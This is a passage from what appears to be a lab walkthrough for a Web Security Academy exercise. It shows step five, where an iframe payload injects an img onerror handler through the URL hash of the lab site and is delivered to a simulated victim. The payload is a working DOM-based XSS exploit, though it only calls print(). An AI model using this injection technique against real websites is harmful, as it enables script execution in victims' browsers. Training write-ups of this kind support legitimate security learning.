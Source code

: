 <img src="images/image23.png" alt="third" width="500">

**Step5**

Now we send this to victim

`<iframe src="https://0a43000f0447eac082472953006500a0.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`

And deliver it to victim

<img src="images/image24.png" alt="third" width="500">
